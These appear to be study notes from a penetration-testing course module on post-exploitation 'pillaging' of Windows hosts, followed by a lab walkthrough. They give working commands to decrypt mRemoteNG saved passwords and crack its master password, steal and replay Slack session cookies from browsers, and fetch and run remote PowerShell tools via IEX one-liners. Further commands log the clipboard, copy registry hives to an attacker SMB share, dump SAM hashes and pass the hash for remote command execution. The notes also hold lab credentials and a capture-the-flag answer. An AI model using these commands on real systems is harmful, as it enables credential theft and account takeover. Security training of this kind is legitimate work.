

# Pillaging

## Data Sources

- Installed applications

- Installed services

Websites
File Shares
Databases
Directory Services (such as Active Directory, Azure AD, etc.)
Name Servers
Deployment Services
Certificate Authority
Source Code Management Server
Virtualization
Messaging
Monitoring and Logging Systems
Backups

- Sensitive Data

Keylogging
Screen Capture
Network Traffic Capture
Previous Audit reports

- User Information

History files, interesting documents (.doc/x,.xls/x,password./pass., etc)
Roles and Privileges
Web Browsers
IM Clients

Scenario :



## Installed Applications

### Identifying Common Applications using CMD

```
dir "C:\Program Files"
 Volume in drive C has no label.
 Volume Serial Number is 900E-A7ED

 Directory of C:\Program Files

07/14/2022  08:31 PM    <DIR>          .
07/14/2022  08:31 PM    <DIR>          ..
05/16/2022  03:57 PM    <DIR>          Adobe
05/16/2022  12:33 PM    <DIR>          Corsair
05/16/2022  10:17 AM    <DIR>          Google
05/16/2022  11:07 AM    <DIR>          Microsoft Office 15
07/10/2022  11:30 AM    <DIR>          mRemoteNG
07/13/2022  09:14 AM    <DIR>          OpenVPN
07/19/2022  09:04 PM    <DIR>          Streamlabs OBS
07/20/2022  07:06 AM    <DIR>          TeamViewer
               0 File(s)              0 bytes
              16 Dir(s)  351,524,651,008 bytes free
```

### Get Installed Programs via PowerShell & Registry Keys

```
$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize

DisplayName                                         DisplayVersion    InstallLocation
-----------                                         --------------    ---------------
Adobe Acrobat DC (64-bit)                           22.001.20169      C:\Program Files\Adobe\Acrobat DC\
CORSAIR iCUE 4 Software                             4.23.137          C:\Program Files\Corsair\CORSAIR iCUE 4 Software
Google Chrome                                       103.0.5060.134    C:\Program Files\Google\Chrome\Application
Google Drive                                        60.0.2.0          C:\Program Files\Google\Drive File Stream\60.0.2.0\GoogleDriveFS.exe
Microsoft Office Profesional Plus 2016 - es-es      16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
Microsoft Office Professional Plus 2016 - en-us     16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
mRemoteNG                                           1.62              C:\Program Files\mRemoteNG
TeamViewer                                          15.31.5           C:\Program Files\TeamViewer
...SNIP...
```

### mRemoteNG

mRemoteNG saves connection info and credentials to a file called confCons.xml

They use a hardcoded master password, mR3m, so if anyone starts saving credentials in mRemoteNG and does not protect the configuration with a password, we can access the credentials from the configuration file and decrypt them.

By default, the configuration file is located in %USERPROFILE%\APPDATA\Roaming\mRemoteNG.

#### Discover mRemoteNG Configuration Files

```
ls C:\Users\julio\AppData\Roaming\mRemoteNG

    Directory: C:\Users\julio\AppData\Roaming\mRemoteNG

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/21/2022   8:51 AM                Themes
-a----        7/21/2022   8:51 AM            340 confCons.xml
              7/21/2022   8:51 AM            970 mRemoteNG.log
```

#### mRemoteNG Configuration File - confCons.xml

```
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
    ..SNIP..
</Connections>
```

#### Decrypt the Password with mremoteng_decrypt

```
python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" 

Password: ASDki230kasd09fk233aDA
```

#### mRemoteNG Configuration File - confCons.xml

```
<?XML version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="1ZR9DpX3eXumopcnjhTQ7e78u+SXqyxDmv2jebJg09pg55kBFW+wK1e5bvsRshxuZ7yvteMgmfMW5eUzU4NG" ConfVersion="2.6">
    <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="False" 
    
<SNIP>
</Connections>
```

#### Attempt to Decrypt the Password with a Custom Password

```
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="

Traceback (most recent call last):
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 49, in <module>
    main()
  File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 45, in main
    plaintext = cipher.decrypt_and_verify(ciphertext, tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 567, in decrypt_and_verify
    self.verify(received_mac_tag)
  File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 508, in verify
    raise ValueError("MAC check failed")
ValueError: MAC check failed
```

#### Decrypt the Password with mremoteng_decrypt and a Custom Password

```
python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p admin

Password: ASDki230kasd09fk233aDA
```

#### For Loop to Crack the Master Password with mremoteng_decrypt

```
for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done    
                              
Spring2017
Spring2016
admin
Password: ASDki230kasd09fk233aDA
admin admin          
admins

<SNIP>
```

## Abusing Cookies to Get Access to IM Clients

IM = instant messaging applications like Slack and Microsoft Teams

### Firefox Cookie Extraction


1) Copy Firefox Cookies Database

```
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

2) Extract Slack Cookie from Firefox Cookies Database

wget https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py

```
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d

(201, '', 'd', 'xoxd-CJRafjAvR3UcF%2FXpCDOu6xEUVa3romzdAPiVoaqDHZW5A9oOpiHF0G749yFOSCedRQHi%2FldpLjiPQoz0OXAwS0%2FyqK5S8bw2Hz%2FlW1AbZQ%2Fz1zCBro6JA1sCdyBv7I3GSe1q5lZvDLBuUHb86C%2Bg067lGIW3e1XEm6J5Z23wmRjSmW9VERfce5KyGw%3D%3D', '.slack.com', '/', 1974391707, 1659379143849000, 1658439420528000, 1, 1, 0, 1, 1, 2)
```

3) Use Firefox and the extension Cookie-Editor

4) Navigate to slack.com

5) Click on the icon for the Cookie-Editor extension, and modify the value of the d cookie with the value you have from the cookieextractor.py script

Click on save

6) Refresh the page

7) Click on Launch Slack and repeat the process of cookie injection

### Cookie Extraction from Chromium-based Browsers

1) PowerShell Script - Invoke-SharpChromium

```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSh
arpPack/master/PowerSharpBinaries/Invoke-SharpChromium.ps1')

Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

[X] Exception: Could not find file 'C:\Users\lab_admin\AppData\Local\Google\Chrome\User Data\\Default\Cookies'.

   at System.IO.__Error.WinIOError(Int32 errorCode, String maybeFullPath)
   at System.IO.File.InternalCopy(String sourceFileName, String destFileName, Boolean overwrite, Boolean checkout)
   at Utils.FileUtils.CreateTempDuplicateFile(String filePath)
   at SharpChromium.ChromiumCredentialManager.GetCookies()
   at SharpChromium.Program.extract data(String path, String browser)
[*] Finished Google Chrome extraction.

[*] Done.

```

2) Copy Cookies to SharpChromium Expected Location

```
copy "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Network\Cookies" "$env:LOCALAPPDATA\Google\Chrome\User Data\Default\Cookies"
```

3) Invoke-SharpChromium Cookies Extraction

```
Invoke-SharpChromium -Command "cookies slack.com"

[*] Beginning Google Chrome extraction.

--- Chromium Cookie (User: lab_admin) ---
Domain         : slack.com
Cookies (JSON) :
[

<SNIP>

{
    "domain": ".slack.com",
    "expirationDate": 1974643257.67155,
    "hostOnly": false,
    "httpOnly": true,
    "name": "d",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": false,
    "storeId": null,
    "value": "xoxd-5KK4K2RK2ZLs2sISUEBGUTxLO0dRD8y1wr0Mvst%2Bm7Vy24yiEC3NnxQra8uw6IYh2Q9prDawms%2FG72og092YE0URsfXzxHizC2OAGyzmIzh2j1JoMZNdoOaI9DpJ1Dlqrv8rORsOoRW4hnygmdR59w9Kl%2BLzXQshYIM4hJZgPktT0WOrXV83hNeTYg%3D%3D"
},
{
    "domain": ".slack.com",
    "hostOnly": false,
    "httpOnly": true,
    "name": "d-s",
    "path": "/",
    "sameSite": "lax",
    "secure": true,
    "session": true,
    "storeId": null,
    "value": "1659023172"
},

<SNIP>

]

[*] Finished Google Chrome extraction.

[*] Done.
```

## Clipboard

### Monitor the Clipboard with PowerShell

https://github.com/inguardians/Invoke-Clipboard/blob/master/Invoke-Clipboard.ps1

```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/inguardians/Invoke-Clipboard/master/Invoke-Clipboard.ps1')

Invoke-ClipboardLogger

https://portal.azure.com

Administrator@something.com

Sup9rC0mpl2xPa$$ws0921lk
```

--> User credentials can be obtained with tools such as Mimikatz or a keylogger. C2 Frameworks such as Metasploit contain built-in functions for keylogging.

## Roles and Services

Typical server roles and services include:

- File and Print Servers
- Web and Database Servers
- Certificate Authority Servers
- Source Code Management Servers
- Backup Servers

### Attacking Backup Servers

https://restic.net/

Restic is a modern backup program that can back up files in Linux, BSD, Mac, and Windows.

https://github.com/restic/restic/releases/latest

#### restic - Initialize Backup Directory

```
mkdir E:\restic2; restic.exe -r E:\restic2 init

    Directory: E:\

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          8/9/2022   2:16 PM                restic2
enter password for new repository:
enter password again:
created restic repository fdb2e6dd1d at E:\restic2

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
```

#### restic - Back up a Directory

```
$env:RESTIC_PASSWORD = 'Password'

restic.exe -r E:\restic2\ backup C:\SampleFolder

repository fdb2e6dd opened successfully, password is correct
created new cache in C:\Users\jeff\AppData\Local\restic
no parent snapshot found, will read all files

Files:           1 new,     0 changed,     0 unmodified
Dirs:            2 new,     0 changed,     0 unmodified
Added to the repo: 927 B

processed 1 files, 22 B in 0:00
snapshot 9971e881 saved
```

#### restic - Back up a Directory with VSS

```
restic.exe -r E:\restic2\ backup C:\Windows\System32\config --use-fs-snapshot

repository fdb2e6dd opened successfully, password is correct
no parent snapshot found, will read all files
creating VSS snapshot for [c:\]
successfully created snapshot for [c:\]
error: Open: open \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config: Access is denied.

Files:           0 new,     0 changed,     0 unmodified
Dirs:            3 new,     0 changed,     0 unmodified
Added to the repo: 914 B

processed 0 files, 0 B in 0:02
snapshot b0b6f4bb saved
Warning: at least one source file could not be read
```

#### restic - Check Backups Saved in a Repository

```
restic.exe -r E:\restic2\ snapshots

repository fdb2e6dd opened successfully, password is correct
ID        Time                 Host             Tags        Paths
--------------------------------------------------------------------------------------
9971e881  2022-08-09 14:18:59  PILLAGING-WIN01              C:\SampleFolder
b0b6f4bb  2022-08-09 14:19:41  PILLAGING-WIN01              C:\Windows\System32\config
afba3e9c  2022-08-09 14:35:25  PILLAGING-WIN01              C:\Users\jeff\Documents
--------------------------------------------------------------------------------------
3 snapshots
```

#### restic - Restore a Backup with ID

```
restic.exe -r E:\restic2\ restore 9971e881 --target C:\Restore

repository fdb2e6dd opened successfully, password is correct
restoring <Snapshot 9971e881 of [C:\SampleFolder] at 2022-08-09 14:18:59.4715994 -0700 PDT by PILLAGING-WIN01\jeff@PILLAGING-WIN01> to C:\Restore
```

## LAB

xfreerdp /v:10.129.31.105 /u:Peter /p:Bambi123

C:\Users\Peter>dir "C:\Program Files"
 Volume in drive C has no label.
 Volume Serial Number is 7871-75EA

 Directory of C:\Program Files

09/23/2022  06:54 AM    <DIR>          .
09/23/2022  06:54 AM    <DIR>          ..
08/03/2022  07:35 AM    <DIR>          Common Files
07/25/2022  10:51 AM    <DIR>          CUAssistant
08/09/2022  11:14 AM    <DIR>          DB Browser for SQLite
07/28/2022  07:40 AM    <DIR>          Google
12/07/2019  01:51 AM    <DIR>          Internet Explorer
08/17/2022  07:56 AM    <DIR>          Microsoft
12/07/2019  01:14 AM    <DIR>          ModifiableWindowsApps
09/23/2022  07:14 AM    <DIR>          Mozilla Firefox
07/25/2022  03:58 AM    <DIR>          PackageManagement
08/04/2022  03:44 AM    <DIR>          rempl
07/21/2022  08:06 AM    <DIR>          Slack
10/06/2021  04:11 PM    <DIR>          VMware
08/08/2022  11:37 AM    <DIR>          Windows Defender
04/09/2021  05:53 AM    <DIR>          Windows Defender Advanced Threat Protection
08/03/2022  07:34 AM    <DIR>          Windows Mail
04/09/2021  05:53 AM    <DIR>          Windows Media Player
12/07/2019  01:54 AM    <DIR>          Windows Multimedia Platform
12/07/2019  01:50 AM    <DIR>          Windows NT
04/09/2021  05:53 AM    <DIR>          Windows Photo Viewer
12/07/2019  01:54 AM    <DIR>          Windows Portable Devices
12/07/2019  01:31 AM    <DIR>          Windows Security
12/07/2019  01:31 AM    <DIR>          WindowsPowerShell
               0 File(s)              0 bytes
              24 Dir(s)  13,629,820,928 bytes free

$INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocation
$INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSize


DisplayName                                                        DisplayVersion  InstallLocation
-----------                                                        --------------  ---------------
DB Browser for SQLite                                              3.12.2          C:\Program Files\DB Browser for S...
Google Chrome                                                      105.0.5195.127  C:\Program Files\Google\Chrome\Ap...
Microsoft Edge                                                     105.0.1343.42   C:\Program Files (x86)\Microsoft\...
Microsoft Edge Update                                              1.3.167.21
Microsoft Edge WebView2 Runtime                                    105.0.1343.42   C:\Program Files (x86)\Microsoft\...
Microsoft Visual C++ 2015-2019 Redistributable (x64) - 14.28.29325 14.28.29325.2
Microsoft Visual C++ 2015-2019 Redistributable (x86) - 14.24.28127 14.24.28127.4
Microsoft Visual C++ 2019 X64 Additional Runtime - 14.28.29325     14.28.29325
Microsoft Visual C++ 2019 X64 Minimum Runtime - 14.28.29325        14.28.29325
Microsoft Visual C++ 2019 X86 Additional Runtime - 14.24.28127     14.24.28127
Microsoft Visual C++ 2019 X86 Minimum Runtime - 14.24.28127        14.24.28127
Mozilla Firefox (x64 en-US)                                        105.0.1         C:\Program Files\Mozilla Firefox
Mozilla Maintenance Service                                        103.0.2
mRemoteNG                                                          1.76.20.24615   C:\Program Files (x86)\mRemoteNG\
Slack (Machine - MSI)                                              4.27.154.0
Slack (Machine)                                                    4.27.154
Update for Windows 10 for x64-based Systems (KB4023057)            2.67.0.0
Update for Windows 10 for x64-based Systems (KB4480730)            2.55.0.0
VMware Tools                                                       11.1.1.16303738 C:\Program Files\VMware\VMware To...
XAMPP                                                              8.1.6-0         C:\xampp

PS C:\Users\Peter> ls C:\Users\Peter\AppData\Roaming\mRemoteNG


    Directory: C:\Users\Peter\AppData\Roaming\mRemoteNG


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         8/17/2022   9:05 AM                Themes
-a----         8/17/2022   9:07 AM           3366 confCons.xml
-a----         8/17/2022   9:05 AM           3242 confCons.xml.20220817-0906135781.backup
-a----         8/17/2022   9:06 AM           3238 confCons.xml.20220817-0906192192.backup
-a----         8/17/2022   9:06 AM           3251 confCons.xml.20220817-0906237194.backup
-a----         8/17/2022   9:06 AM           3260 confCons.xml.20220817-0906277815.backup
-a----         8/17/2022   9:06 AM           3265 confCons.xml.20220817-0906333907.backup
-a----         8/17/2022   9:06 AM           3345 confCons.xml.20220817-0906545002.backup
-a----         8/17/2022   9:06 AM           3360 confCons.xml.20220817-0907165472.backup
-a----         8/17/2022   9:07 AM           3366 confCons.xml.20220817-0907212031.backup
-a----         8/17/2022   9:07 AM           3366 confCons.xml.20220817-0907256254.backup
-a----         8/17/2022   9:07 AM           3366 confCons.xml.20220817-0907447503.backup
-a----         8/17/2022   9:07 AM             51 extApps.xml
-a----         8/17/2022   9:07 AM           3240 mRemoteNG.log
-a----         8/17/2022   9:07 AM           2245 pnlLayout.xml


type C:\Users\Peter\AppData\Roaming\mRemoteNG\confCons.xml

<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="AllGNAWw3JJdXFuMG06ssHKpMbWw7AHXKWZVidfNIu5LNVm2nzroKSKtYYfsK66/itwh95OaYLtEX8NA7xy7IMwr" ConfVersion="2.6">
    <Node Name="Grace_Local_Acct" Type="Connection" Descr="Grace Account" Icon="mRemoteNG" Panel="General" Id="88291c0c-b6b0-4f2d-b180-81d3b50485a4" Username="grace" Domain="PILLAGING-WIN01" Password="s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ=" Hostname="localhost" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
</mrng:Connections>

git clone https://github.com/haseebT/mRemoteNG-Decrypt
cd mRemoteNG-Decrypt/

python3 mremoteng_decrypt.py -s "s1LN9UqWy2QFv2aKvGF42YRfFvp0bytu04yyCuVQiI12MQvkYT3XcOxWaLTz0aSNjRjr3Rilf6Xb4XQ="
Password: Princess01!


xfreerdp /v:10.129.31.105 /u:Grace /p:Princess01!

PS C:\Users\Grace> copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
PS C:\Users\Grace> dir


    Directory: C:\Users\Grace


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-r---         8/17/2022   9:11 AM                3D Objects
d-r---         8/17/2022   9:11 AM                Contacts
d-r---         8/17/2022   9:11 AM                Desktop
d-r---         8/17/2022   9:11 AM                Documents
d-r---         8/17/2022   9:52 AM                Downloads
d-r---         8/17/2022   9:11 AM                Favorites
d-r---         8/17/2022   9:11 AM                Links
d-r---         8/17/2022   9:11 AM                Music
d-r---         8/17/2022   9:12 AM                OneDrive
d-r---         8/17/2022   9:12 AM                Pictures
d-r---         8/17/2022   9:11 AM                Saved Games
d-r---         8/17/2022   9:12 AM                Searches
d-r---          2/3/2024   7:19 AM                Videos
-a----         9/23/2022  10:46 AM         524288 cookies.sqlite

sudo smbserver.py -smb2support share $(pwd)

copy C:\Users\Grace\cookies.sqlite \\10.10.15.97\share\

python3 cookieextractor.py --dbpath cookies.sqlite --host slack --cookie d

(10, '', 'd', 'xoxd-VGhpcyBpcyBhIGNvb2tpZSB0byBzaW11bGF0ZSBhY2Nlc3MgdG8gU2xhY2ssIHN0ZWFsaW5nIGEgY29va2llIGZyb20gYSBicm93c2VyLg==', '.api.slacktestapp.com', '/', 7975292868, 1663945037085000, 1663945037085002, 0, 0, 0, 1, 0, 2)

slack.com on Firefox with Cookie Editor extension

Slacky Demo Chat Website
You have successfully logged in

FLAG: HTB{Stealing_Cookies_To_AccessWebSites}
Chat

jeff: Hi Grace, I'm testing the our internal Slack Demo Chat App

grace: Yeah, it's working fine, we just need to add some color.

jeff: Can you help me with that?

grace: Sure. Where's the source code?

jeff: It's in my computer, you can login with my creds Username: jeff and Password Webmaster001!

grace: Ok! I'll do it :)

xfreerdp /v:10.129.31.105 /u:jeff /p:Webmaster001!

Content of backup.txt on desktop :

```
Repository: E:\restic
Backup Directories: 
 - C:\Windows\System32\config
 - C:\xampp\htdocs\webapp_old
Password: Superbackup!

Sample:

restic.exe -r E:\restic snapshots
```

restic.exe -r E:\restic snapshots

PS C:\Users\jeff> restic.exe -r E:\restic snapshots
enter password for repository:
wrong password or no key found. Try again
enter password for repository:
repository 2e40703c opened successfully, password is correct
found 1 old cache directories in C:\Users\jeff\AppData\Local\restic, run `restic cache --cleanup` to remove them
ID        Time                 Host             Tags        Paths
--------------------------------------------------------------------------------------
02d25030  2022-08-09 05:58:15  PILLAGING-WIN01              C:\xampp\htdocs\webapp
24504d3d  2022-08-09 11:24:43  PILLAGING-WIN01              C:\Windows\System32\config
7b9cabc8  2022-08-09 11:25:47  PILLAGING-WIN01              C:\Windows\System32\config
4e7bd0cd  2022-08-09 11:55:33  PILLAGING-WIN01              C:\xampp\htdocs\webapp_old
b2f5caa0  2022-08-17 11:43:56  PILLAGING-WIN01              C:\Windows\System32\config
--------------------------------------------------------------------------------------

PS C:\Users\jeff> restic.exe -r E:\restic restore 02d25030 --target C:\Restore
enter password for repository:
repository 2e40703c opened successfully, password is correct
found 1 old cache directories in C:\Users\jeff\AppData\Local\restic, run `restic cache --cleanup` to remove them
restoring <Snapshot 02d25030 of [C:\xampp\htdocs\webapp] at 2022-08-09 05:58:15.161629 -0700 PDT by PILLAGING-WIN01\lab_admin@PILLAGING-WIN01> to C:\Restore

PS C:\Restore\c\xampp\htdocs\webapp> type web.config
web.config
# Change Username and Password
<connectionStrings>
    <add name="DefaultConnection" connectionString="server=localhost;database=Injection;User Id=Administrator;Password='NewSuperPa$$w0rd!'" providerName="System.Data.SqlClient" />
</connectionStrings>

restic.exe -r E:\restic restore b2f5caa0 --target C:\Restore\b2f5caa0

sudo smbserver.py -smb2support share $(pwd)

copy C:\Restore\b2f5caa0\C\Windows\System32\config\SAM \\10.10.15.97\share\
copy C:\Restore\b2f5caa0\C\Windows\System32\config\SECURITY \\10.10.15.97\share\
copy C:\Restore\b2f5caa0\C\Windows\System32\config\SYSTEM \\10.10.15.97\share\


move sam.save \\$PWN_BOX$\CompData
move security.save \\$PWN_BOX$\CompData
move system.save \\$PWN_BOX$\\CompData

locate secretsdump 
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL

[*] Target system bootKey: 0x9828e7264dd454a4cae19b10e003858e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bac9dc5b7b4bec1d83e0e9c04b477f26:::

crackmapexec smb 10.129.31.105 -u Administrator -d . -H bac9dc5b7b4bec1d83e0e9c04b477f26 -x whoami

[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.129.31.105   445    PILLAGING-WIN01  [*] Windows 10 Pro 19043 x64 (name:PILLAGING-WIN01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.31.105   445    PILLAGING-WIN01  [+] .\Administrator:bac9dc5b7b4bec1d83e0e9c04b477f26 (Pwn3d!)
SMB         10.129.31.105   445    PILLAGING-WIN01  [+] Executed command 
SMB         10.129.31.105   445    PILLAGING-WIN01  pillaging-win01\administrator
